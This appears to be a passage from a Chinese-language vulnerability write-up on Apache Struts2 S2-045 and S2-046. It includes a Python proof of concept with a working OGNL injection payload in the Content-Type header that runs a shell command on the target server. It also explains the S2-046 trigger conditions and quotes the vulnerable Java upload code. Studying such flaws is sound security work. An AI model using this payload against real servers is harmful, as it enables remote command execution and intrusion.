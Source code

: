 ```python
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
    response = urllib2.urlopen(request)
    print response.read()
poc()

```

### S2-046 PoC_1

在Struts 2.3.20以上的版本中，Struts2才提供了可选择的通过Streams实现Jakarta组件解析的方式。
触发条件,使用非默认解析jakarta-stream。例在strust.xml中有加入`<constant name="struts.multipart.parser" value="jakarta-stream" />`才能触发。
上传文件的大小（由Content-Length头指定）大于Struts2默认允许的最大大小（2M）。

触发漏洞的代码在 JakartaStreamMultiPartRequest类中，processUpload函数处理了content-length长度超长的异常，导致问题触发。
```java
private void processUpload(HttpServletRequest request, String saveDir)
        throws Exception {
    // Sanity check that the request is a multi-part/form-data request.
    if (ServletFileUpload.isMultipartContent(request)) {
        // Sanity check on request size.
        boolean requestSizePermitted = isRequestSizePermitted(request);
        // Interface with Commons FileUpload API
        // Using the Streaming API
        ServletFileUpload servletFileUpload = new ServletFileUpload();
        FileItemIterator i = servletFileUpload.getItemIterator(request);
        // Iterate the file items
        while (i.hasNext()) {
            try {
                FileItemStream itemStream = i.next();
                // If the file item stream is a form field, delegate to the
                // field item stream handler
                if (itemStream.isFormField()) {
                    processFileItemStreamAsFormField(itemStream);
                }
                // Delegate the file item stream for a file field to the
                // file item stream handler, but delegation is skipped
                // if the requestSizePermitted check failed based on the
                // complete content-size of the request.
                else {
                    // prevent processing file field item if request size not allowed.
                    // also warn user in the logs.
                    if (!requestSizePermitted) {
                        addFileSkippedError(itemStream.getName(), request);
                        LOG.warn("Skipped stream '#0', request maximum size (#1) exceeded.", itemStream.getName(), maxSize);
                        continue;
                    }
                    processFileItemStreamAsFileField(itemStream, saveDir);
                }
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }
```